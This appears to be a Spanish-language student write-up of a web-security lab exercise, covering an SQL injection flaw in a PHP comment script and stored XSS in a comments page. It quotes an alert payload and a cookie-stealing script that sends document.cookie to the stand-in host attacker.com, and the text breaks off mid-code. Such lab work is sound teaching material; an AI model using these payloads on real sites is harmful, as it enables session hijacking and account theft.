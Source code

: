 ### **Esto os permite estudiar el código fuente de `add\_comment.php` y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?**

    El archivo `add_comment.php` contiene una vulnerabilidad de inyección SQL. Aquí está el análisis detallado:

    La vulnerabilidad principal se encuentra en la construcción de la consulta SQL:

    ```php
    $query = "INSERT INTO comments (playerId, userId, body) VALUES ('".$_GET['id']."', '".$_COOKIE['userId']."', '$body')";
    ```

    Aunque se utiliza `SQLite3::escapeString($body)` para el campo `body`, los valores de `$_GET['id']` y `$_COOKIE['userId']` se insertan directamente en la consulta sin ninguna sanitización o validación.

    **Cómo explotar la vulnerabilidad**

    Se podria manipular el parámetro `id` en la URL o el valor de la cookie `userId` para inyectar código SQL malicioso.   

<br><br><br>

# Parte 2 - XSS

### **A) Para ver si hay un problema de XSS, crearemos un comentario que muestre un alert de Javascript siempre que alguien consulte el/los comentarios de aquel jugador (show_comments php). Dad un mensaje que genere un «alert» de Javascript al consultar el listado de mensajes.**

    Al introducir el mensaje `<script>alert('XSS detectado');</script>` en el formulario de la página show_comments.php, se demuestra una vulnerabilidad XSS. Esto ocurre porque la aplicación no valida ni escapa adecuadamente el contenido ingresado por el usuario, permitiendo que el navegador ejecute el código malicioso en lugar de mostrarlo como texto.

    **Impacto del `alert`**:
    
    Aunque el alert parece inofensivo, su propósito es probar que puedes ejecutar JavaScript en el contexto de otro usuario. Un atacante podría reemplazar este código con scripts mucho más dañinos, como:

    - **Robo de cookies de sesión**: Para hacerse pasar por el usuario.
    - **Descarga de malware**: Engañando al usuario para instalar archivos maliciosos.
    - **Phishing visual**: Cambiar el contenido de la página para recolectar credenciales.

    **Impacto general de un XSS en una web**

    Además del simple alert(), aquí hay un ejemplo más detallado de un ataque XSS malicioso:

    ```js
    <script>
        // Robo de cookies
        var stolenCookie = document.cookie;
        new Image().src = "http://attacker.com/steal?cookie=" + encodeURIComponent(stolenCookie);
